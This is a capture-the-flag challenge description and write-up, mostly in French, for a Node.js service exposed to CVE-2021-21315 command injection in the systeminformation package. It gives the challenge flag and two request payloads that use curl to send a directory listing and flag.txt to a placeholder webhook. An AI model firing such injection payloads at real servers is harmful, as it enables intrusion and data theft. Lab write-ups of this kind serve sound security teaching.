 # Quotes-A-Day 2 (API2)

> Web <br>
> Author: @Strix

# Challenge

OK, we've patched the previous vulnerability and finally implemented our new system health check feature. Users can now
query our **system information** to check if the service is available or not and make sure to get their daily quote!

FLAG: `FLAG{0WASP_T0P_9_PATCH_Y0UR_NPM_PACKAG3S}`

## Outils nécessaires

- docker-compose

## Exécution

```bash
docker-compose up --build --force-recreate --renew-anon-volumes
```

## Writeup

Le défi ici est une vulnérabilité d'injection de commande dans un package très populaire de nodejs appelée [systeminformation](https://www.npmjs.com/package/systeminformation).
Le package a une vulnérabilité dans 4 fonctions dans lesquels un utilisateur fournit du input non filtré/_santized_.

L'injection de commande se produit ici par l'utilisation d'un tableau plutôt que d'une chaîne, en raison d'un manque d'assainissement dans l'une des fonctions du paquet. (CVE-2021-21315)

Le endpoint `GET /systemInfo` requiert un paramètre `service`.

`GET /systemInfo?service=mongod` renverrait l'état actuel du processus mongod, mais

`/systemInfo?service[]=$(echo 'command injection')` injecterait la commande, puisque `systeminformation.services(<USERINPUT>)` ne _sanitize_ pas les tableaux/listes/arrays, mais uniquement les chaînes de caractères.

L'utilisateur n'a donc qu'à parcourir le répertoire pour trouver le flag.txt. 

```curl
GET /systemInfo?service[]=$(ls -la > out.txt && curl --form "data=@out.txt" <WEBHOOK>)
```

```curl
GET /systemInfo?service[]=$(curl --form "data=@flag.txt" <WEBHOOK>)
```
